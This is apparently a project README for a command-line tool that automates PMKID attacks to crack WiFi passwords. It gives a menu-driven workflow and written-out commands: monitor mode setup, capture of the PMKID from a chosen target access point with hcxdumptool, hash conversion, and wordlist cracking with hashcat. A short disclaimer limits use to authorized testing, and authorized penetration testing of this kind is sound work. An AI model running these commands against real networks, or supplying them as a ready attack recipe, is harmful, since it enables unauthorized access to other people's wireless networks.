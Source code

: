 # PMKID Attack Tool

A **WiFi penetration testing tool** specifically designed for **PMKID attacks** - a powerful method to crack WiFi passwords without requiring client interaction. This tool automates the entire PMKID attack workflow from network scanning to password cracking.

## 🎯 What is PMKID Attack?

PMKID (Pairwise Master Key Identifier) attack is a WiFi security vulnerability that allows attackers to capture authentication data from access points without needing any connected clients. This makes it particularly effective for penetration testing.

## 🚀 Features

- **🔍 Network Scanning**: Scan and identify available WiFi networks
- **📡 PMKID Capture**: Automatically capture PMKID data from target access points
- **🔓 Password Cracking**: Crack captured PMKID hashes using hashcat
- **📝 Custom Wordlists**: Generate custom password lists using crunch
- **🔄 Monitor Mode Management**: Automatic interface management for monitor mode
- **⚡ Automated Workflow**: Streamlined process from capture to crack

## 📦 Prerequisites

### Required Tools
The tool automatically installs these dependencies:
- `aircrack-ng` - WiFi security auditing
- `hcxtools` - WiFi tools for capturing and converting PMKID
- `hcxdumptool` - PMKID capture tool
- `hashcat` - Password cracking
- `crunch` - Password list generation
- `xterm` - Terminal emulator

### System Requirements
- **Linux** (Kali Linux recommended)
- **Root privileges** (sudo access)
- **Wireless adapter** with monitor mode support

## 🛠️ Installation & Usage

### 1. Clone the Repository
```bash
git clone <repository-url>
cd PMKID-Attack
```

### 2. Run the Tool
```bash
sudo python3 CLI/pmkid-cli.py
```

### 3. Follow the Menu Options
```
(1) PMKID Attack - Step 1: Monitor & Capture PMKID
(2) PMKID Attack - Step 2: Crack PMKID Password
(3) Scan Networks
(4) Create your own passwordlist
(00) Exit
```

## 📋 Step-by-Step Guide

### Step 1: Setup Interface
1. Run the tool: `sudo python3 CLI/pmkid-cli.py`
2. Choose option **1** (PMKID Attack - Step 1)
3. Enter your wireless interface (e.g., `wlp3s0`)
4. The tool will automatically handle interface name changes (e.g., `wlp3s0` → `wlp3s0mon`)

### Step 2: Capture PMKID
1. Scan for available networks
2. Note the **BSSID** and **Channel** of your target
3. Enter the target details when prompted
4. Wait for PMKID capture (press `Ctrl+C` when done)

### Step 3: Crack Password
1. Choose option **2** (PMKID Attack - Step 2)
2. Select your wordlist (rockyou.txt or custom)
3. Wait for hashcat to crack the password

## 🔧 Manual Commands

If you prefer to run commands manually:

```bash
# Find your interface
iw dev

# Start monitor mode
sudo airmon-ng start wlp3s0

# Capture PMKID
sudo hcxdumptool -i wlp3s0mon --enable_status=1 -o pmkid.pcapng --filterlist_ap=TARGET_BSSID --filtermode=2

# Convert to hash format
hcxpcapngtool -o pmkid.22000 pmkid.pcapng

# Crack with hashcat
hashcat -m 22000 pmkid.22000 rockyou.txt

# Show results
hashcat -m 22000 pmkid.22000 rockyou.txt --show
```

## 📁 File Structure

```
PMKID-Attack/
├── CLI/
│   ├── pmkid-cli.py          # Main CLI tool
│   ├── pmkid.pcapng          # Captured PMKID data
│   └── pmkid.22000           # Hashcat-compatible hash file
├── saved-pmkid/              # Saved PMKID captures
├── instr.txt                 # Detailed instructions
└── README.md                 # This file
```

## 🎯 Attack Workflow

```
1. Interface Setup → 2. Network Scan → 3. PMKID Capture → 4. Hash Conversion → 5. Password Cracking
```

## ⚠️ Important Notes

- **Legal Use Only**: This tool is for educational and authorized penetration testing
- **Monitor Mode**: Disables normal WiFi connection during use
- **Wordlists**: Keep rockyou.txt ready for password cracking
- **Interface Names**: The tool automatically handles interface name changes
- **Root Access**: Always run with sudo for wireless operations

## 🔄 Restore WiFi Connection

After using the tool, restore normal WiFi:

```bash
# Stop monitor mode
sudo airmon-ng stop wlp3s0mon

# Restart network manager
sudo systemctl restart NetworkManager
```

## 📚 Additional Resources

- **Instructions**: See `instr.txt` for detailed command reference
- **Troubleshooting**: Check interface setup in the instructions
- **Wordlists**: Download rockyou.txt for effective password cracking

## ⚖️ Disclaimer

This tool is intended for **educational purposes and authorized penetration testing only**. Users are responsible for ensuring they have proper authorization before testing any network. The authors are not responsible for any misuse of this tool.

---

**Happy Hacking! 🔓**
